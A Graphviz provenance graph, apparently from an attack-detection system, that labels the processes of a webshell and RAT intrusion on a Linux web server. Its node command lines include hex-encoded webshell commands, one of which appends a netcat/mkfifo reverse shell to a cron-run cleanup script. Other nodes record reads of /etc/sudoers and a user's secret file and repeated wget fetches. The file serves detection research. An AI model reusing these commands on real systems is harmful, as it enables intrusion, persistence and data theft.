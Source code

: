 digraph graph1 {
node [shape = record];
table135 [label = "{<head>processname:  | pid: 925 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000}", color = red];
table0 [label = "{<head>processname:  | pid: 0 | cmdline:  | starttime: 0 | enddtime: -1}"];
table241 [label = "{<head>processname:  | pid: 1041 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 0}", color = red];
table11 [label = "{<head>processname:  | pid: 1258 | cmdline:  | starttime: 0 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table2 [label = "{<head>processname:  | pid: 1236 | cmdline:  | starttime: 0 | enddtime: -1}"];
table134 [label = "{<head>processname:  | pid: 932 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000}", color = red];
table136 [label = "{<head>processname:  | pid: 1343 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000}", color = red];
table138 [label = "{<head>processname:  | pid: 933 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000}", color = red];
table144 [label = "{<head>processname:  | pid: 935 | cmdline:  | starttime: 0 | enddtime: -1 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000}", color = red];
table163 [label = "{<head>processname: sh | pid: 1373 | cmdline: /bin/sh -c /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: 1618986733955000000 | label: PT10 Shell command.(rat) timestamp: 1618986602181000000}", color = red];
table164 [label = "{<head>processname: parentNeverShowUp | pid: -1 | cmdline:  | starttime: 0 | enddtime: -1}"];
table193 [label = "{<head>processname:  | pid: 1409 | cmdline:  | starttime: 0 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000}", color = red];
table191 [label = "{<head>processname:  | pid: 1387 | cmdline:  | starttime: 0 | enddtime: -1}"];
table242 [label = "{<head>processname: sudo | pid: 1465 | cmdline: sudo spade/bin/spade stop | starttime: 1618986740517000000 | enddtime: -1 | label: PT6 The process call sensitive command. timestamp: 1618986740517000000 | label: PT10 Shell command.(rat) timestamp: 1618986740517000000}", color = red];
table12 [label = "{<head>processname: bash | pid: 1259 | cmdline: -bash | starttime: 1618985500872000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500872000000}", color = red];
table80 [label = "{<head>processname: sftp-server | pid: 1296 | cmdline: /usr/lib/openssh/sftp-server | starttime: 1618985501092000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618985501092000000}", color = red];
table79 [label = "{<head>processname:  | pid: 1295 | cmdline:  | starttime: 0 | enddtime: -1}"];
table20 [label = "{<head>processname:  | pid: 1262 | cmdline:  | starttime: 0 | enddtime: -1}"];
table99 [label = "{<head>processname: bash | pid: 1323 | cmdline: bash -c /usr/lib/openssh/sftp-server | starttime: 1618985552267000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618985552267000000}", color = red];
table98 [label = "{<head>processname:  | pid: 1322 | cmdline:  | starttime: 0 | enddtime: -1}"];
table97 [label = "{<head>processname:  | pid: 1300 | cmdline:  | starttime: 0 | enddtime: -1}"];
table158 [label = "{<head>processname: sh | pid: 1362 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b6c73202d6c202f746d703b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986179109000000 | enddtime: 1618986179124000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986179109000000}", color = red];
table154 [label = "{<head>processname: sh | pid: 1359 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b636174202f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986174463000000 | enddtime: 1618986174471000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986174463000000}", color = red];
table161 [label = "{<head>processname: sh | pid: 1367 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}", color = red];
table146 [label = "{<head>processname: sh | pid: 1354 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b7077643b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986161781000000 | enddtime: 1618986161789000000 | label: PT10 Shell command.(rat) timestamp: 1618986161781000000}", color = red];
table145 [label = "{<head>processname:  | pid: 936 | cmdline:  | starttime: 0 | enddtime: -1}"];
table149 [label = "{<head>processname: sh | pid: 1356 | cmdline: sh -c 2f62696e2f7368202d632022636420222f7661722f7777772f68746d6c223b636174202f6574632f63726f6e7461623b6563686f205b535d3b7077643b6563686f205b455d2220323e2631 | starttime: 1618986166107000000 | enddtime: 1618986166147000000 | label: PT10 Shell command.(rat) timestamp: 1618986166107000000}", color = red];
table148 [label = "{<head>processname:  | pid: 934 | cmdline:  | starttime: 0 | enddtime: -1}"];
table165 [label = "{<head>processname: sh | pid: 1374 | cmdline: /bin/sh /tmp/cleanup.sh | starttime: 1618986602181000000 | enddtime: 1618986733955000000 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986602181000000}", color = red];
table194 [label = "{<head>processname: bash | pid: 1410 | cmdline: -bash | starttime: 1618986719524000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719524000000}", color = red];
table201 [label = "{<head>processname: sftp-server | pid: 1436 | cmdline: /usr/lib/openssh/sftp-server | starttime: 1618986719604000000 | enddtime: -1 | label: PT10 Shell command.(rat) timestamp: 1618986719600000000}", color = red];
table200 [label = "{<head>processname:  | pid: 1435 | cmdline:  | starttime: 0 | enddtime: -1}"];
table198 [label = "{<head>processname:  | pid: 1413 | cmdline:  | starttime: 0 | enddtime: -1}"];
table13 [label = "{<head>processname: sh | pid: 1260 | cmdline: sh -c 2f7573722f62696e2f7861757468202d71202d | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table47 [label = "{<head>processname: bash | pid: 1283 | cmdline: -bash | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table64 [label = "{<head>processname: bash | pid: 1285 | cmdline: -bash | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table72 [label = "{<head>processname: bash | pid: 1291 | cmdline: -bash | starttime: 1618985500960000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500960000000}", color = red];
table75 [label = "{<head>processname: bash | pid: 1293 | cmdline: -bash | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table84 [label = "{<head>processname: bash | pid: 1297 | cmdline: -bash | starttime: 1618985507140000000 | enddtime: 1618985507140000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507140000000}", color = red];
table86 [label = "{<head>processname: ls | pid: 1298 | cmdline: ls --color=auto | starttime: 1618985507672000000 | enddtime: 1618985507676000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985507672000000}", color = red];
table87 [label = "{<head>processname: wget | pid: 1299 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985521583000000 | enddtime: 1618985564027000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985521583000000 | label: PT1 The process has network connections. timestamp: 1618985521583000000}", color = red];
table100 [label = "{<head>processname: free | pid: 1324 | cmdline: free -m | starttime: 1618985581803000000 | enddtime: 1618985581979000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985581795000000}", color = red];
table110 [label = "{<head>processname: wget | pid: 1325 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985583599000000 | enddtime: 1618985652775000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985583599000000 | label: PT1 The process has network connections. timestamp: 1618985583599000000}", color = red];
table112 [label = "{<head>processname: free | pid: 1326 | cmdline: free -m | starttime: 1618985673323000000 | enddtime: 1618985673359000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985673319000000}", color = red];
table113 [label = "{<head>processname: free | pid: 1327 | cmdline: free -m | starttime: 1618985684223000000 | enddtime: 1618985684231000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985684223000000}", color = red];
table114 [label = "{<head>processname: wget | pid: 1328 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985688919000000 | enddtime: 1618985766459000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985688919000000 | label: PT1 The process has network connections. timestamp: 1618985688919000000}", color = red];
table116 [label = "{<head>processname: free | pid: 1329 | cmdline: free -m | starttime: 1618985775670000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985775666000000}", color = red];
table117 [label = "{<head>processname: free | pid: 1330 | cmdline: free -m | starttime: 1618985782370000000 | enddtime: 1618985782370000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985782370000000}", color = red];
table118 [label = "{<head>processname: free | pid: 1331 | cmdline: free -m | starttime: 1618985784582000000 | enddtime: 1618985784590000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985784582000000}", color = red];
table119 [label = "{<head>processname: wget | pid: 1332 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985791614000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985791614000000 | label: PT1 The process has network connections. timestamp: 1618985791614000000}", color = red];
table121 [label = "{<head>processname: free | pid: 1334 | cmdline: free -m | starttime: 1618985878950000000 | enddtime: 1618985878982000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985878946000000}", color = red];
table122 [label = "{<head>processname: wget | pid: 1335 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985881630000000 | enddtime: -1 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985881626000000 | label: PT1 The process has network connections. timestamp: 1618985881630000000}", color = red];
table124 [label = "{<head>processname: free | pid: 1336 | cmdline: free -m | starttime: 1618985933292000000 | enddtime: 1618985933316000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985933292000000}", color = red];
table125 [label = "{<head>processname: wget | pid: 1337 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985934568000000 | enddtime: 1618985980207000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985934568000000 | label: PT1 The process has network connections. timestamp: 1618985934568000000}", color = red];
table127 [label = "{<head>processname: free | pid: 1338 | cmdline: free -m | starttime: 1618985992818000000 | enddtime: 1618985992850000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985992814000000}", color = red];
table128 [label = "{<head>processname: wget | pid: 1339 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618985993906000000 | enddtime: 1618986033721000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985993906000000 | label: PT1 The process has network connections. timestamp: 1618985993906000000}", color = red];
table130 [label = "{<head>processname: free | pid: 1340 | cmdline: free -m | starttime: 1618986047501000000 | enddtime: 1618986047517000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986047501000000}", color = red];
table131 [label = "{<head>processname: wget | pid: 1341 | cmdline: wget http://169.254.0.1:8000/bigrat.json | starttime: 1618986048589000000 | enddtime: 1618986087028000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986048589000000 | label: PT1 The process has network connections. timestamp: 1618986048589000000}", color = red];
table133 [label = "{<head>processname: free | pid: 1342 | cmdline: free -m | starttime: 1618986092932000000 | enddtime: 1618986092988000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986092932000000}", color = red];
table159 [label = "{<head>processname: sh | pid: 1363 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6c73202d6c202f746d703b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986179109000000 | enddtime: 1618986179124000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986179109000000}", color = red];
table155 [label = "{<head>processname: sh | pid: 1360 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b636174202f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986174463000000 | enddtime: 1618986174471000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986174463000000}", color = red];
table162 [label = "{<head>processname: sh | pid: 1368 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b6563686f20276d6b6669666f202f746d702f746262616a6f3b206e63203136392e3235342e3132382e32203838383820303c2f746d702f746262616a6f207c202f62696e2f7368203e2f746d702f746262616a6f20323e26313b726d202f746d702f746262616a6f273e3e2f746d702f636c65616e75702e73683b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986281293000000 | enddtime: 1618986281293000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986281293000000}", color = red];
table147 [label = "{<head>processname: sh | pid: 1355 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b7077643b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986161785000000 | enddtime: 1618986161789000000 | label: PT10 Shell command.(rat) timestamp: 1618986161781000000}", color = red];
table150 [label = "{<head>processname: sh | pid: 1357 | cmdline: /bin/sh -c 6364202f7661722f7777772f68746d6c3b636174202f6574632f63726f6e7461623b6563686f205b535d3b7077643b6563686f205b455d | starttime: 1618986166107000000 | enddtime: 1618986166147000000 | label: PT10 Shell command.(rat) timestamp: 1618986166107000000}", color = red];
table167 [label = "{<head>processname: rm | pid: 1375 | cmdline: rm -rf /var/www/html/uploads/b.php | starttime: 1618986602185000000 | enddtime: 1618986602213000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986602185000000}", color = red];
table169 [label = "{<head>processname: mkfifo | pid: 1376 | cmdline: mkfifo /tmp/tbbajo | starttime: 1618986602229000000 | enddtime: 1618986602241000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986602229000000}", color = red];
table172 [label = "{<head>processname: sh | pid: 1378 | cmdline: /bin/sh | starttime: 1618986602273000000 | enddtime: 1618986733955000000 | label: PS4 Information Collection (IC) timestamp: 1618986697596000000 | label: PS3 Credential Access (CA) timestamp: 1618985500876000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986602269000000 | label: PS2 Privilege Escalation timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000}", color = red];
table171 [label = "{<head>processname: nc | pid: 1377 | cmdline: nc 169.254.128.2 8888 | starttime: 1618986602273000000 | enddtime: 1618986733955000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986602269000000}", color = red];
table240 [label = "{<head>processname: rm | pid: 1464 | cmdline: rm /tmp/tbbajo | starttime: 1618986733955000000 | enddtime: 1618986733955000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986733955000000}", color = red];
table195 [label = "{<head>processname: sh | pid: 1411 | cmdline: sh -c 2f7573722f62696e2f7861757468202d71202d | starttime: 1618986719396000000 | enddtime: 1618986719524000000 | label: PT10 Shell command.(rat) timestamp: 1618986719396000000}", color = red];
table202 [label = "{<head>processname: bash | pid: 1437 | cmdline: -bash | starttime: 1618986719652000000 | enddtime: 1618986719656000000 | label: PT10 Shell command.(rat) timestamp: 1618986719652000000}", color = red];
table204 [label = "{<head>processname: bash | pid: 1439 | cmdline: -bash | starttime: 1618986719828000000 | enddtime: 1618986719864000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719828000000}", color = red];
table209 [label = "{<head>processname: bash | pid: 1444 | cmdline: -bash | starttime: 1618986719868000000 | enddtime: 1618986719872000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719868000000}", color = red];
table211 [label = "{<head>processname: bash | pid: 1446 | cmdline: -bash | starttime: 1618986719884000000 | enddtime: 1618986719888000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986719884000000}", color = red];
table213 [label = "{<head>processname: bash | pid: 1448 | cmdline: -bash | starttime: 1618986722665000000 | enddtime: 1618986722665000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986722665000000}", color = red];
table214 [label = "{<head>processname: bash | pid: 1449 | cmdline: -bash | starttime: 1618986722665000000 | enddtime: 1618986722665000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986722665000000}", color = red];
table215 [label = "{<head>processname: bash | pid: 1450 | cmdline: -bash | starttime: 1618986723441000000 | enddtime: 1618986723445000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986723441000000}", color = red];
table217 [label = "{<head>processname: bash | pid: 1451 | cmdline: -bash | starttime: 1618986723449000000 | enddtime: 1618986723449000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986723449000000}", color = red];
table219 [label = "{<head>processname: bash | pid: 1452 | cmdline: -bash | starttime: 1618986724369000000 | enddtime: 1618986724373000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986724369000000}", color = red];
table221 [label = "{<head>processname: bash | pid: 1453 | cmdline: -bash | starttime: 1618986724373000000 | enddtime: 1618986724373000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986724373000000}", color = red];
table223 [label = "{<head>processname: bash | pid: 1454 | cmdline: -bash | starttime: 1618986725053000000 | enddtime: 1618986725053000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986725053000000}", color = red];
table225 [label = "{<head>processname: bash | pid: 1455 | cmdline: -bash | starttime: 1618986725057000000 | enddtime: 1618986725057000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986725057000000}", color = red];
table227 [label = "{<head>processname: ls | pid: 1456 | cmdline: ls --color=auto /home/manager/ | starttime: 1618986725721000000 | enddtime: 1618986725725000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986725721000000}", color = red];
table228 [label = "{<head>processname: bash | pid: 1457 | cmdline: -bash | starttime: 1618986727926000000 | enddtime: 1618986727926000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986727926000000}", color = red];
table230 [label = "{<head>processname: bash | pid: 1458 | cmdline: -bash | starttime: 1618986727930000000 | enddtime: 1618986727930000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986727930000000}", color = red];
table232 [label = "{<head>processname: bash | pid: 1459 | cmdline: -bash | starttime: 1618986728510000000 | enddtime: 1618986728510000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986728510000000}", color = red];
table234 [label = "{<head>processname: bash | pid: 1460 | cmdline: -bash | starttime: 1618986728514000000 | enddtime: 1618986728514000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986728514000000}", color = red];
table236 [label = "{<head>processname: bash | pid: 1461 | cmdline: -bash | starttime: 1618986730002000000 | enddtime: 1618986730006000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986730002000000}", color = red];
table237 [label = "{<head>processname: bash | pid: 1462 | cmdline: -bash | starttime: 1618986730006000000 | enddtime: 1618986730010000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618986730006000000}", color = red];
table239 [label = "{<head>processname: cat | pid: 1463 | cmdline: cat /home/manager/secret | starttime: 1618986730443000000 | enddtime: 1618986730447000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PS5 Data Exfiltration timestamp: 1618985500876000000 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986730443000000}", color = red];
table18 [label = "{<head>processname: xauth | pid: 1261 | cmdline: /usr/bin/xauth -q - | starttime: 1618985500776000000 | enddtime: 1618985500872000000 | label: PT10 Shell command.(rat) timestamp: 1618985500776000000}", color = red];
table48 [label = "{<head>processname: ls | pid: 1284 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500900000000 | enddtime: 1618985500912000000 | label: PT10 Shell command.(rat) timestamp: 1618985500900000000}", color = red];
table65 [label = "{<head>processname: lesspipe | pid: 1286 | cmdline: /bin/sh /usr/bin/lesspipe | starttime: 1618985500948000000 | enddtime: 1618985500960000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500948000000}", color = red];
table73 [label = "{<head>processname: dircolors | pid: 1292 | cmdline: dircolors -b | starttime: 1618985500964000000 | enddtime: 1618985500968000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500964000000}", color = red];
table76 [label = "{<head>processname: ls | pid: 1294 | cmdline: ls /etc/bash_completion.d | starttime: 1618985500976000000 | enddtime: 1618985500980000000 | label: PS4 Information Collection (IC) timestamp: 1618985500948000000 | label: PT10 Shell command.(rat) timestamp: 1618985500976000000}", color = red];
table160 [label = "{<head>processname: ls | pid: 1364 | cmdline: ls -l /tmp | starttime: 1618986179109000000 | enddtime: 1618986179120000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986179109000000}", color = red];
table156 [label = "{<head>processname: cat | pid: 1361 | cmdline: cat /tmp/cleanup.sh | starttime: 1618986174463000000 | enddtime: 1618986174467000000 | label: PT7 The uploaded file is mmap.(webshell) timestamp: 1618986121320000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986174463000000}", color = red];
table151 [label = "{<head>processname: cat | pid: 1358 | cmdline: cat /etc/crontab | starttime: 1618986166123000000 | enddtime: 1618986166147000000 | label: PT10 Shell command.(rat) timestamp: 1618986166123000000}", color = red];
table177 [label = "{<head>processname: ls | pid: 1379 | cmdline: ls | starttime: 1618986609866000000 | enddtime: 1618986609866000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986609866000000}", color = red];
table179 [label = "{<head>processname: cat | pid: 1380 | cmdline: cat /etc/crontab | starttime: 1618986622507000000 | enddtime: 1618986622507000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986622507000000}", color = red];
table180 [label = "{<head>processname: cat | pid: 1381 | cmdline: cat /etc/sudoers | starttime: 1618986648760000000 | enddtime: 1618986648864000000 | label: PT9 Execute any command.(webshell) timestamp: 1652945086106 | label: PT8 The uploaded file is read.(webshell) timestamp: 1652945086106 | label: PT10 Shell command.(rat) timestamp: 1618986648760000000 | label: PS1 Persistent Stronghold timestamp: 1618986166123000000 | label: PT2 The process read sensitive information. timestamp: 1618986648760000000}", color = red];
